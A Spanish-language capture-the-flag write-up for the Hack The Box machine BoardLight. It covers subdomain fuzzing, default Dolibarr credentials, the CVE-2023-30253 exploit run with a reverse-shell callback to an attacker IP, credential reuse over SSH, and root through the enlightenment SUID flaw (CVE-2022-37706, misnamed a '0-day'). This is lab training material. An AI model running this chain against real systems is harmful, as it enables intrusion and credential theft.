## 1. Inicio

### 1.1. Escaneo de puertos

El pentester hace un escaneo de puertos para encontrar los puertos abiertos dentro de la ip 10.129.231.37



### 1.2. Reconocimiento web en el puerto 80

El pentester entra a la pagina 80 y ve una pagina llamada Boardlight que ofrece consultorias de seguridad, Herramienta de desarrollo de cyber y un sitio, vemos tambien el dominio de la pagina llamado board.htb







### 1.3. Agregando el dominio a /etc/hosts

El pentester agrega el dominio a /etc/hosts/ y entra a la pagina y vemos que es correcto



### 1.4. Enumeración de subdominios con ffuf

El pentester hace un enumeramiento de subdominios con la herramienta ffuf

```sh
sudo ffuf -u http://board.htb -H "Host: FUZZ.board.htb" \
-w /usr/share/wordlists/dirbuster/subdomains-top1million-20000.txt \
-k -ac
```



### 1.5. Acceso al subdominio CRM (Dolibarr)

Entramos al subdominio crm y vemos un Dolibarr 17.0.0



### 1.6. Credenciales por defecto

El pentester busca cuales son las credenciales por defecto y ve que es admin:admin



### 1.7. Explotación con CVE-2023-30253

El pentester encuentra el cve de este exploit (CVE-2023-30253) que se trata de un php injection, asi que baja el repositorio y le da un codigo de python para ejecutarlo de la siguiente manera

```sh
python3 exploit.py http://crm.board.htb admin admin 10.10.14.128 4444
```



### 1.8. Reverse shell como www-data

El pentester obtiene una reverse shell con el usuario www-data



### 1.9. Credenciales de la base de datos

El pentester busca en google en que parte se almacena la configuracion de este servicio y ve que lo hace en /var/www/html/crm.board.htb/htdocs/conf por lo tanto obtiene las credenciales del usuario de la base de datos



### 1.10. Acceso SSH como larissa

El pentester prueba estas credenciales con el usuario que vemos en el directorio home llamado larissa que no nos permite acceder pero prueba credenciales y nos conecta exitosamente mediante ssh



### 1.11. user.txt

El pentester encuentra la user.txt



### 1.12. Enumeración con linpeas.sh

El pentester trae linpeas.sh a la maquina victima y lo ejecuta, uno de los resultados mas importantes que da linpeas.sh es los SUID donde vemos uno llamado enlightenment que tiene un CVE-2022-37706, se trata de un 0-day que explota el binario y ejecuta el root facilmente creando una carpeta maliciosa y dando permisos



### 1.13. Escalada de privilegios (CVE-2022-37706)

El pentester encuentra el exploit en github un .sh que lo traemos a nuestra maquina y de ahi a la maquina victima y dandole permisos +x lo ejecutamos dando asi el usuario root



### 1.14. root.txt

El pentester encuentra la root.txt


